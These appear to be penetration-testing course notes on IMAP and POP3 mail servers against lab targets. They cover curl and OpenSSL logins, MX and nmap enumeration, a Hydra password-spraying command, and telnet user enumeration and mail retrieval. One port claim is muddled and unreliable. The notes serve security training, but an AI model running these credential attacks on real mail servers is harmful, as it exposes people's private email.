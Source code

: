 Access to emails from a mail server is possible. IMAP works unencrypted and transmits commands, emails, or usernames and passwords in plain text. Depending on the method and implementation used, the encrypted connection uses the standard port 143 or an alternative port such as 993. If we successfully figure out the access credentials for one of the employees, an attacker could log in to the mail server and read or even send the individual messages.
## cURL
```
curl -k 'imaps://10.129.14.128' --user user:p4ssw0rd
```
```
curl -k 'imaps://10.129.14.128' --user cry0l1t3:1234 -v
```
## OpenSSL
### OpenSSL - TLS Encrypted Interaction POP3
```
openssl s_client -connect 10.129.14.128:pop3s
```
### OpenSSL - TLS Encrypted Interaction IMAP
```
openssl s_client -connect 10.129.14.128:imaps
```
Check the commands https://book.hacktricks.xyz/network-services-pentesting/pentesting-imap
# Enumeration
We can use the Mail eXchanger (MX) DNS record to identify a mail server. The MX record specifies the mail server responsible for accepting email messages on behalf of a domain name
```
host -t MX <domain.com>
```
```
dig mx plaintext.do | grep "MX" | grep -v ";"
```
```
host -t A mail1.inlanefreight.htb.
```
We can use Nmap's default script -sC option to enumerate those ports on the target system:
```
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 <ip>
```
# Protocol Specifics Attacks
## Password Attacks
### Hydra - Password Attack
```
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3 (or smtp,imap4)
```
## Misconfigurations
We can also use the POP3 protocol to enumerate users depending on the service implementation. For example, we can use the command USER followed by the username, and if the server responds OK. This means that the user exists on the server.
```
telnet <ip> 110
```
```
USER <username>
PASS <password>
```
To check emails
```
RETR 1
RETR 2
```
